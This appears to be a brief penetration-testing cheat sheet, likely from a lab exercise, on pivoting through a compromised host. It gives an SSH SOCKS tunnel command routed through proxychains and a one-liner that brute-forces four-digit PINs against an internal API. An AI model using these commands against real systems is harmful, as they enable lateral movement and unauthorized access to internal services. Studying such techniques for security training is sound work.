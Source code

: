 # Pivoting

## If you've owned a box, how can you pivot to other machines in private subnets?
SOCKS Proxy
```
ssh weytechuser@files.wey-tech.com -D 9050 -f -N
```
Use proxychains to force any command we run locally to route all traffic through our SOCKS tunnel so that we can hit targets

Configure Firefox to run through the proxy. A good addon is SmartProxy and you can configure the SOCKS4 Protocol proxy using the localhost port set above.

## What's a way to brute-force attempt pins on an API?
```
$ ssh weytechuser@files.wey-tech.com 'for i in $(seq 1000 9999); do RESULT=$(curl http://10.4.4.80/api/confirm/abcd/$i 2>/dev/null); if [[ $RESULT == *"true"* ]]; then echo -e "\n$RESULT\nPincode: $i\n"; break; fi; done'
```
